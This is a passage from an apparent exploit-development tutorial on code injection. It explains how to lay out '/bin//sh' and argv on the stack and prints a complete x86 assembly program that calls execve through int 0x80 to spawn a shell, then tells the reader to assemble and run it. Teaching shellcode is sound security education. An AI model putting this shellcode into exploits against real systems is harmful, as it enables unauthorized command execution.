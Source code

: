 	* We have a string **"/bin/sh"** to store in stack. The stack should look something like this after storing the string: 


			string_address	: /	b	i	n	/	/	s	h
			string_address + 8	: 0	0 	0	0	0	0	0	0
	
	* You first push **0** onto the stack. Then store the string. Remember, a string is always **NULL-terminated**. 

	* We now need **argv**. The pointer which points to the array of pointers. The clear direction is: **argv[1]** = 0, **argv[0]** = Address of "/bin/sh". We can do the following. 

			mov Reg1, esp	; Top of stack points to "/bin//sh"
			push 0x00		; argv[1] = 0x00
			push Reg1		; Pushing address of "/bin//sh"
			mov Reg2, esp	: Top of stack is argv. 
	
	* Open [this](/assets/2018-12-02-exploitation-using-code-injection-part02/shell32.asm) assembly program. It has x86 assembly code written to get a shell. The following is a comment-less version of the same program: 

			section .text
			global _start

			_start:

				push 0x00                                                              
				push 0x68732f2f                                                                  
				push 0x6e69622f
				mov ebx, esp                                                                                                  

				push 0x00
				push ebx
				mov ecx, esp

				mov edx, 0x00                           

				mov eax, 0xb

				int 0x80

			exit:
				mov eax, 0x01
				mov ebx, 0x00
				int 0x80
		
	* Go through **shell32.asm** assembly program carefully. I have added comments to each instruction. When you read that assembly program, it is better to keep the C program as reference. You will be able to understand what exactly is being done in **shell32.asm**. 


10. Assemble, link and run the program: 

	* Read this carefully. Only after you have understood the program completely, you go ahead with this step. It is very important that you understand the program. This will help you write your own shellcode later on. 

	* Let us run it. 
